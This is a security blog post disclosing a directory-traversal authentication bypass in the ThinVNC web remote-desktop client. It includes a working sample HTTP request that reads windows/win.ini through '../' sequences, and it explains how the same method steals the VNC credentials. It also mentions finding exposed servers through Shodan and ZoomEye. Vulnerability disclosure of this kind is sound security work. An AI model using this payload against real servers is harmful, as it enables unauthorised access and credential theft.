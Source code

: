 ```yaml
---
layout: post
title:  "ThinVNC Client Authentication Bypass"
date:   2019-10-15 18:05:55 +0300
image:  ThinVNC/title.png
author-name: jinxbox
tags:   [VNC, Auth Bypass, CVE]
---
```


<h2>Prologue:</h2>
In this blog post, I'll be writing few details about a vulnerability I found in ThinVNC. ThinVNC is a remote desktop client which works on web. I found an arbitrary file read vulnerability through which the authentication set can be bypassed. An attacker can gain remote terminal access abusing this vulnerability.

<h3> ThinVNC Application </h3>
ThinVNC can be downloaded from https://sourceforge.net/projects/thinvnc/ and the source code for this is available at https://github.com/bewest/thinvnc. According to it's author ThinVNC is a pure HTML5 & AJAX Remote Desktop implementation. ThinVNC works on any HTML5-compliant web browser. Users can access a remote PC from any computer or mobile OS; no additional plugin or installation will be required on the client side. 

<h3> Vulnerability Description </h3>
ThinVNC uses Basic Authentication to authenticate a user to access the web VNC interface. Credentials to be used are set on the server side while deploying the VNC server. There is no fixed port on which VNC server runs, you can run the VNC server on any port pre-configured.

A sample authentication screen looks like this:
[photo of auth-1]

When tried with multiple with wrong authentication credentials, it throws a HTTP 401 error. This can be bypassed using the following vector:
<b> /../../../../../../../../../windows/win.ini </b>

<h4>Sample Request:</h4>

GET /admin/../../../../../../../../../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 192.168.40.1:5888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

<h4>Sample Response: </h4>
HTTP/1.1 200
Content-Type: application/binary
Content-Length: 96
Connection: Keep-Alive

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
test
[insert BURP Screenshot here]
<br>

This directory traversal attack vector allows us to read any arbitrary file on the system. We can use the same vector to steal the credentials for the VNC client. Once we steal them, we can use the credentials to compromise the VNC server. Post compromise, we get terminal access to the VNC server.



<h3> POC: </h3>

<h3> ThinVNC in the wild  </h3>
There are roughly 800 accessible ThinVNC servers exposed over internet. You can use the following queries on Shondan and Zoomeye to identiify the vulnearble servers. 
[zoomeye ss]
[shodan ss]

SourceForge Page suggests that there are 208 downloads/week on an average. 


